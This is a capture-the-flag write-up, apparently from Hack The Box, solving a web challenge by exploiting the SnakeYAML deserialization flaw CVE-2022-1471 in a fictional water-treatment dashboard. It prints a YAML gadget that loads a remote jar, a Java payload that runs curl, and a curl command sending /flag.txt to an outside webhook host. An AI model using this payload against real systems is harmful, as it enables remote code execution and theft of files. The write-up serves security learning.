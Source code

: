 # Watersnake
> As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

## About the Challenge
We were given a source code (You can download the source code [here](web_watersnake.zip)). Here is the preview of the website


[Image extracted text: SS' WaterSnake v3
Dashboard
Firmware Update
About
Water Tank Module Info
Projected Levels By Current Usage
Total Water Tanks: 4
400OL
Water Tank Maximum Capacity: 1OO0 liters
3000L
Firmware Version: V3
2000L
1OOOL
15
CanvasJS Trial
com
Water Levels
Tank1
Tank 2
Tank 3
Tank 4
Aug
Aug
Aug
Aug
Aug anvasis;C]


And also there is another functionality where we can submit our own YAML configuration


[Image extracted text: SS' WaterSnake v3
Dashboard
Firmware Update
About
Firmware Update
Enter an update configuration file in the appropriate format (YAML)
version: 3.5.2
date: 2175-06-11
author: AquaTech Solutions
components:
name: WaterSensors
version: 2.1.0
description: Enhances accuracy and reliability:
checksum: ABC12345
name: DataLogger
version: 1.7.5
description: Improves data logging capabilities for better analytics:
checksum: GHI98765
Submit]


## How to Solve?
If we check the the `Controller.java` code especially a function called `update()`

```java
import org.yaml.snakeyaml.Yaml;
...
...
@PostMapping("/update")
	public String update(@RequestParam(name = "config") String updateConfig) {
       	InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
      
       	Yaml yaml = new Yaml();

	    Map<String, Object> obj = yaml.load(is);

		obj.forEach((key, value) -> System.out.println(key + ":" + value));

		return "Config queued for firmware update";
	}
}
```

You will see this program using `snakeyaml`. And the packages is outdated if we check the version in `pom.xml` file


[Image extracted text: ena.
Lests]
epende
groupId>org-yaml
groupId>
<artifactid>snakeyaml
artifactId>
<version 1.33</version>
dependency>
dependencies>
ency>]


snakeyaml is vulenrable to CVE-2022-1471. So, to exploit this website using CVE-2022-1471, we can use this GitHub [repository](https://github.com/artsploit/yaml-payload/)


[Image extracted text: public AwesomeScriptEngineFactory()
try
Runt
getRunt
()
exec ( "curl
~F password-@/flag.txt webhook site/47c2cdc9-1233-4ac8-8e8b-55efed6aeb2c")
catch (IOException e)
e.printStackTrace() ;
~ime .
~imet]


Don't forget to change the payload into the blow code because we can't use reverse shell payload (idk why). So, in this case i just send the content of `flag.txt` into webhook

```
curl -F password=@/flag.txt webhook.site/xxxxxxx
```

And then input this in the YAML form

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-server/yaml-payload.jar"]
  ]]
]
```

Check the webhook again and you will see a request from the website


[Image extracted text: Request Details
Permalink
Raw content
Expont as
POST
http Ilwebhook site/47c2cdc9-1233-4ac8-8e8b-55efeO6aeb2c
Host
83.136.254.230 whois
Date
07/15/2023 12.32.22 AM (2 days ago)
Size
0 bytes
e42abc07-9281-4e22-bbc9-d2e8164fdd75
Files
password
flag.txt
Download (19 bytes)
Query strings
(empty )
No content]


And then download the `flag` file


[Image extracted text: File
Edit
View
HTB{r1d3_th3_snak3}]


```
HTB{r1d3_th3_sn4k3}
```